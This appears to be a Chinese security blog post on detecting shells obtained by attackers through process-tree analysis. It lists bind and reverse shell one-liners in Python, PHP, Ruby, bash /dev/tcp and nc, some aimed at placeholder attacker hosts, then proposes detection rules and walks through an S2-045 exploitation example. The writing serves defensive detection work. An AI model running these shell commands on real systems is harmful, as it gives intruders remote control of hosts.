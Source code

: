 ```yaml
---
layout: post
title:  "异常进程检测（getshell）的场景分析和发现方法"
date: 2017-05-16 18:06:26 +0800
author: Invo
categories: original
---
```


为了能识别主机上被攻击者利用漏洞后获取的shell进程，整理了网络上常见的正向或反向shell的姿势技巧。在测试环境中设计和模拟了集中getshell的场景，并分析这些场景下进程的派生与继承关系。

### 获得shell的姿势
1.一段python脚本
{% highlight python %}
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',1234))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)

{% endhighlight %}

观察进程的派生关系，通过监听的端口找到模拟攻击者的shell进程，这个pid为5359的进程在进程树上是init进程的子进程，这是一个比较明显的异常信号。这是一个正向连接的脚本，即服务器开放一个监听端口让攻击者连接。这个脚本fork出一个子进程，当用户连接上以后就结束主进程。子进程由init接管，pid变成1。而通常，bash、sh等shell或者perl、python、ruby、lua等程序语言一定是由bash、ssh、login等程序派生出来的。


![abnormal-proc-detection-001.png](/assets/img/abnormal-proc-detection-001.png)

2.一句php命令
```
php -r '$sock=fsockopen("127.0.0.1",12345 );exec("/bin/sh -i <&3 >&3 2>&3");'
```


php命令以文件的形式创建一个socket并监听端口，正向连接，同步调用sh。在进程树上，是一个php进程派生出一个sh。对于检测者，是比较理想的一种情况。


![abnormal-proc-detection-002.png](/assets/img/abnormal-proc-detection-002.png)

3.一句ruby命令

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","4321");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


ruby创建一个反向连接，与python脚本一样，完成连接后ruby主进程退出，子进程由init接管。与python不同的是，这句命令直接使用ruby IO模块中的方法与操作系统交互，没有调用shell。（也有调用shell的命令。）如果删除了"exit if fork;"这句，则变成bash派生出的ruby进程，检测难度就变大了。


![abnormal-proc-detection-003.png](/assets/img/abnormal-proc-detection-003.png)
上图是有exit if fork;的情况


![abnormal-proc-detection-004.png](/assets/img/abnormal-proc-detection-004.png)
上图是没有exit if fork;的情况

4.一句话bash反弹shell
```
bash -i >& /dev/tcp/attacker's_ip/attacer's_port 0>&1
```
这种写法从进程间的关系上看不出异常，但是因为一般会利用某种应用的漏洞执行shell命令，所以还是有办法检测的。


5.利用nc反弹shell
a 使用管道的方式

```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe

/bin/sh | nc attackerip 4444

```
b 使用nc的-e参数

由于没有找到合适的测试环境，没有测试成功，线上环境编译的nc一般不包含-e参数，风险较小（实际上在入侵的时候几乎从来没有执行成功过）。

### 检测规则

1.父进程为某个守护进程（web应用、数据库、自研应用），子进程为bash、ash、ksh……

2.父进程为某个守护程序或程序语言，子进程为另一种程序语言。例如java派生出perl。

2.init派生的bash、ash、ksh……等等。（PHP、ruby、perl也要监控，但鉴于很多监控工具使用python编写，如果检测init直接派生的python会有大量误报的问题）

3.nc程序进程，出现了管道或者-e参数

以上是特征非常明显的进程状态，以下还有两条可以作为辅助的特征，但最好不要独立使用，因为会有很多误报。

1.子进程的创建时间与父进程相差很远（同时又不是周期性的），除非父进程是init的情况

2.bash建立了socket

其实还有一些规则是我没想到的，欢迎大家补充。可以发邮件给我wangzf0225#gmail.com

### 模拟一个场景
例子：利用S2-045漏洞反弹shell

使用medicean的docker镜像创建了一个包含S2-042的典型利用场景的环境。利用exp成功执行命令"bash -i >& /dev/tcp/attacker's_ip/attacer's_port 0>&1"弹回shell，观察进程树：
![abnormal-proc-detection-005.png](/assets/img/abnormal-proc-detection-005.png)

发现这是一个比较典型的java派生bash子进程的情况。

当然，有时也会通过调用另一个语言程序实现反弹。
![abnormal-proc-detection-006.png](/assets/img/abnormal-proc-detection-006.png)


### PS 补充一点

pstree命令以默认方式输出所有进程，其中一部分进程pid使用pa aux中无法找到。这部分进程名通常用一对花括号包围，例如"{process}"。这是因为pstree默认输出所有的进程信息，而ps aux只输出一部分（尽管名义上输出全部）。使用ps -eLf可以看到所有的进程信息，实际上，而没有被显示的这部分进程的pid在ps -eLf中叫做LWP，即light weight process，也就是线程（thread）。
